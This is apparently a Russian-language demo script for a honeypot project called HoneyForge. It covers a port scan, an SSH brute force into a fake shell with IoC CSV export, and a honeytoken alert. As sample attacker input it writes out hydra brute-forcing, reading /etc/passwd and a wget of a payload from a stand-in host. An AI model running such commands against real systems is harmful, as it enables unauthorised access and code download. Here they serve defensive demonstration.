

# HoneyForge — Сценарии демонстрации атак

> Живой сценарий защиты: **атака → событие в центре**.

Три сценария — от простого к эффектному. Первые два **Must** для защиты, третий — Bonus.

## Сценарий A. «Сканер → Low honeypot → событие в dashboard»

**Цель:** показать, что обычный порт-скан и попытка баннера фиксируются и появляются в UI за <5 сек.

**Шаги:**

1. Оператор логинится в dashboard, открывает «Лента событий».
2. С атакующей машины (`nmap -sV -p 22,80,3306 <honeypot_ip>`).
3. Low-ловушка отвечает баннерами (`SSH-2.0-OpenSSH_8.9`, `nginx/1.24.0`, `5.7.42-MySQL`).
4. Агент формирует 3 события `type=probe` с `proto/service/version`, кладёт в SQLite-буфер.
5. Через `masking.beacon_interval_seconds` ± `beacon_jitter_seconds` (в демо 5±2 сек) — батч уходит на центр; размер батча тоже варьируется, чтобы запросы не выглядели одинаковыми.
6. Collector пишет в `events`, триггер `NOTIFY`, WS-пуш → строка появляется в dashboard.

**Что показываем судье:** фильтр «по ловушке», geoip, временная шкала.

---

## Сценарий B. «SSH-брутфорс → Medium honeypot → fake shell → IoC-экспорт»

**Цель:** показать Medium-ловушку, логирование кред и команд, экспорт IoC.

**Шаги:**

1. Атакующий запускает `hydra -l root -P rockyou.txt ssh://<honeypot_ip>`.
2. Medium-ловушка fake-SSH принимает любые креды (кроме явного стоп-листа), логирует `login_attempt` с `username/password`.
3. После «успешного» логина атакующий попадает в fake-shell. Вводит:
   ```bash
   whoami
   cat /etc/passwd
   wget http://evil.example/payload.sh
   ```
4. Medium-эмулятор отвечает реалистично (`root`, фейковый passwd, `--2025-...--` от wget), все команды пишутся в `sessions.commands[]`.
5. Агент шлёт батч: `event(type=auth_success)`, `event(type=command)`, `event(type=download)`.
6. В dashboard оператор видит сессию: `src_ip → creds → commands`. Нажимает **Экспорт IoC → CSV**.
7. Center отдаёт `honeyforge-ioc-<UTC>.csv` (RFC 4180) с колонками `event_id, received_at, observed_at, trap_name, trap_id, attack_session_id, event_type, source_ip, source_port, target_service, target_port, username, accepted, command, cwd, http_method, http_path, query, database, succeeded, bytes_received, sha256, payload`. Пароли остаются внутри колонки `payload`; значения, начинающиеся с `=`, `+`, `-`, `@`, экранируются, чтобы Excel не выполнил команду атакующего.

**Что показываем судье:** реальные креды в UI, цепочку команд, скачанный CSV.

---

## Сценарий C (Bonus). «Honeytoken → детект срабатывания»

**Цель:** показать, что даже пассивный доступ к фейковому секрету детектируется.

**Шаги:**

1. Оператор через UI кладёт honeytoken типа `aws_key` в fake-fs Medium-ловушки (`~/.aws/credentials`).
2. Атакующий (или кто-то, кто получил доступ к хосту) читает файл — `watchfiles`-детектор в агенте фиксирует `access`.
3. Событие `type=honeytoken_triggered` с `severity=high` уходит в центр.
4. В dashboard всплывает **алерт** (Bonus FR-C7), оператор видит: `honeytoken_id, src_ip, access_time`.

**Что показываем судье:** алерт в реальном времени, отличие `severity=high` от обычных probe-событий.

---

## Тайминговая диаграмма (для презентации)


